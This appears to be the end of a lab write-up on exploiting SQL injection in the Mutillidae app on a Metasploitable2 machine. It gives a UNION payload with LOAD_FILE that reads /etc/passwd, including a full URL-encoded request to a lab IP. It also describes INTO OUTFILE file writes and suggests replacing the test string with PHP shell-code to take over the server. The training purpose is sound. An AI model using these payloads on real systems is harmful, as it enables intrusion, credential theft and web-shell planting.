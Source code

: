 ![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/6f6e2f30-2f05-4892-8bab-ee41700757d0)

![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/70883aa3-1f5f-44c8-a66c-1f0fb0ae239a)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

```

http://192.168.43.83/mutillidae/index.php?page=user-info.php&username=Harish%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

```
![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/0c963cd5-bb7b-45ef-a334-fea971167f72)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
